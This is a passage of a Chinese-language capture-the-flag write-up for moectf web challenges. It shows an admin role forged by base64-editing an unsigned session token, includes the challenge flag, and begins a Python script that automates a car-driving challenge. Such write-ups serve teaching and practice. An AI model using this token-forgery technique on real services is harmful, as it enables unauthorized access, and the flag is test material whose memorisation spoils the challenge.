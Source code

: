 根据`README.md`给出的api注册登录获取flag

```
POST /register


{
    "username":"ttycp3",
    "password":"123456"
}
----------------------------------------------------------------------------
POST /login

{
    "username":"ttycp3",
    "password":"123456"
}
----------------------------------------------------------------------------
GET /flag
```

给了个假flag告诉我不是`admin`，尝试对token进行base64解码

![image-20230916125840022](https://ttycp3.oss-cn-beijing.aliyuncs.com/img/image-20230916125840022.png)

把`username`,`password`,`role`全改成admin再进行base64编码（不知道验证的哪个都改了算了）

![image-20230916130032150](https://ttycp3.oss-cn-beijing.aliyuncs.com/img/image-20230916130032150.png)

重新获取flag

```
GET /flag
token=eyJ1c2VybmFtZSI6ICJhZG1pbiIsICJwYXNzd29yZCI6ICJhZG1pbiIsICJyb2xlIjogImFkbWluIn0=
```

拿到flag

```
moectf{cooKi3_is_d3licious_MA9iVff90SSJ!!M6Mrfu9ifxi9i!JGofMJ36D9cPMxro}
```

### gas!gas!gas!

写个脚本漂移一下

```python
import requests
import re
session=requests.session()
url="http://localhost:59398"
data={
    "driver":"ttycp3",
    "steering_control":'0',
    "throttle":'2'
}
for i in range(7):
    s=session.post(url=url,data=data)
    if "moectf" in s.text:
        print(s.text)
        break
    att=re.findall("<font color=\"red\">([\u4e00-\u9fa5！，]+)",s.text)
    print(att)
    if "直行" in att[0]:
        data["steering_control"]='0'
    elif "左" in att[0]:
        data["steering_control"]='1'
        print(data)
```